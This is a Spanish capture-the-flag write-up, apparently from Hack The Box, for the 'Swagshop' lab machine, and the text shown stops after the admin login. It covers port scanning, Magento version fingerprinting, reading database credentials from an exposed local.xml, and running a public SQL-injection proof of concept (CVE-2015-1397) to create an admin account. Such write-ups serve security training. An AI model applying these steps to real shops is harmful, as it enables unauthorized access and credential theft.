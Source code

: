 # Swagshop ![Avatar](https://www.hackthebox.eu/storage/avatars/23477a54b0a750374e281656d69e7661_thumb.png)

## Initial Scan

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home page
```

## Enum
### HTTP
La página web esta usando un servicio llamado Magento, mediante banner grabing podemos identificar la versión exacta del mismo
```
{
    "skin/adminhtml/default/default/boxes.css": {
        "6aefb246b1bb817077e8fca6ae53bf2c": "CE 1.2.0, CE 1.2.0.1, CE 1.2.0.2, CE 1.2.0.3", 
        "84b67457247969a206456565111c456b": "CE 1.1.2, CE 1.1.3, CE 1.1.4", 
        "0902e89fb50b22d44f8242954a89300c": "EE 1.12.0.0", 
        "8a5c088b435dbcf1bbaac9755d4ed45f": "EE 1.12.0.1, EE 1.12.0.2", 
        "1cbeca223c2e15dcaf500caa5d05b4ed": "CE 1.7.0.0", 
        "d0511b190cdddf865cca7873917f9a69": "CE 1.1.1", 
        "a2c7f9ddda846ba76220d7bcbe85c985": "CE 1.2.1, CE 1.2.1.1, CE 1.2.1.2"
    }, 
    "js/mage/adminhtml/sales.js": {
        "a86ad3ba7ab64bf9b3d7d2b9861d93dc": "CE 1.0", 
        "d80c40eeef3ca62eb4243443fe41705e": "CE 1.5.0.1", 
        "95e730c4316669f2df71031d5439df21": "CE 1.1.0", 
        "bdacf81a3cf7121d7a20eaa266a684ec": "CE 1.5.1.0", 
        "ba43d3af7ee4cb6f26190fc9d8fba751": "EE 1.14.1.0", 
        "c8dd0fd8fa3faa9b9f0dd767b5a2c995": "CE 1.9.1.1", 
        "4422dffc16da547c671b086938656397": "CE 1.4.2.0", 
        "0e400488c83e63110da75534f49f23f3": "CE 1.3.2, CE 1.3.2.1, CE 1.3.2.2, CE 1.3.2.3, CE 1.3.2.4", 
        "48d609bb2958b93d7254c13957b704c4": "CE 1.6.1.0, CE 1.6.2.0", 
        "40417cf4bee0e99ffc3930b1465c74ae": "EE 1.11.2.0", 
        "5656a8c1c646afaaf260a130fe405691": "CE 1.8.1.0", 
        "17da0470950e8dd4b30ccb787b1605f5": "CE 1.1.5, CE 1.1.6", 
        "aeb47c8dfc1e0b5264d341c99ff12ef0": "EE 1.11.0.2", 
        "ec6a34776b4d34b5b5549aea01c47b57": "EE 1.10.0.2", 
        "a0436f1eee62dded68e0ec860baeb699": "CE 1.9.1.0", 
        "5112f328e291234a943684928ebd3d33": "CE 1.1.7, CE 1.1.8", 
        "7ca2e7e0080061d2edd1e5368915c267": "EE 1.10.1.1", 
        "a4296235ba7ad200dd042fa5200c11b0": "CE 1.6.0.0", 
        "9a5d40b3f07f8bb904241828c5babf80": "EE 1.13.1.0", 
        "3fe31e1608e6d4f525d5db227373c5a0": "EE 1.13.0.0, EE 1.13.0.2", 
        "26c8fd113b4e51aeffe200ce7880b67a": "CE 1.8.0.0", 
        "839ead52e82a2041f937389445b8db04": "CE 1.3.3.0", 
        "d1bfb9f8d4c83e4a6a826d2356a97fd7": "CE 1.3.1, CE 1.3.1.1"
    }, 
    "js/mage/adminhtml/product.js": {
        "e887acfc2f7af09e04f8e99ac6f7180d": "CE 1.3.0"
    }, 
    "skin/frontend/rwd/default/css/styles.css": {
        "bf6c8e2ba2fc5162dd5187b39626a3a0": "CE 1.9.0.1", 
        "5373978891051983da47ac5064b4b2b9": "EE 1.14.0.1", 
        "8a874fcb6cdcb82947ee4dbbe1822f3e": "CE 1.9.0.0", 
        "bd66fd43fecd7ca1e293226bb11e1658": "EE 1.14.0.0"
    }, 
    "js/prototype/validation.js": {
        "295494d0966637bdd03e4ec17c2f338c": "CE 1.4.1.0", 
        "d3252becf15108532d21d45dced96d53": "CE 1.4.1.1"
    }, 
    "js/mage/adminhtml/tools.js": {
        "86bbebe2745581cd8f613ceb5ef82269": "CE 1.7.0.1, CE 1.7.0.2", 
        "ea81bcf8d9b8fcddb27fb9ec7f801172": "CE 1.3.2.2", 
        "d594237950932b9a3948288a020df1ba": "CE 1.3.2.3, CE 1.3.2.4, CE 1.3.3.0"
    }, 
    "js/lib/flex.js": {
        "4040182326f3836f98acabfe1d507960": "CE 1.4.0.1", 
        "eb84fc6c93a9d27823dde31946be8767": "CE 1.4.0.0"
    }
  ```
Con esta lista de los banner podemos averiguar la version
  ```
curl -s http://10.10.10.140/skin/frontend/rwd/default/css/styles.css | md5sum
8a874fcb6cdcb82947ee4dbbe1822f3e
  ```
Vemos que se corresponde a la CE 1.9.0.0, la cual es una versión antigua (2014) con múltiples vulnerabilidades conocidas 
Mediante gobusting encontramos el siguiente archivo:
```
http://10.10.10.140/app/etc/local.xml
```
Si examinamos el mismo encontraremos credenciales:
```
               <connection>
                    <host><![CDATA[localhost]]></host>
                    <username><![CDATA[root]]></username>
                    <password><![CDATA[fMVWh7bDHpgZkyfqQXreTjU9]]></password>
                    <dbname><![CDATA[swagshop]]></dbname>
                    <initStatements><![CDATA[SET NAMES utf8]]></initStatements>
                    <model><![CDATA[mysql4]]></model>
                    <type><![CDATA[pdo_mysql]]></type>
                    <pdoType><![CDATA[]]></pdoType>
```
Encontramos un CVE que puede ser valido para obtener mas credenciales
```
https://www.cvedetails.com/cve/CVE-2015-1397/
```
## Exploit
### CVE-2015-1397
Encontramos una PoC para el mismo
```
https://github.com/joren485/Magento-Shoplift-SQLI
```
Lo probamos
```
python2.7 poc.py http://10.10.10.140
WORKED
Check http://10.10.10.140/admin with creds ypwq:123
```
La URL esta mal realmente es http://10.10.10.140/index.php/admin, nada mas logearnos vemos un mensaje bastante jugoso:
```
 Your web server is configured incorrectly. As a result, configuration files with sensitive information are accessible from the outside. Please contact your hosting provider.
 ```
 Probablemtente se refiera a las creds ya encontradas
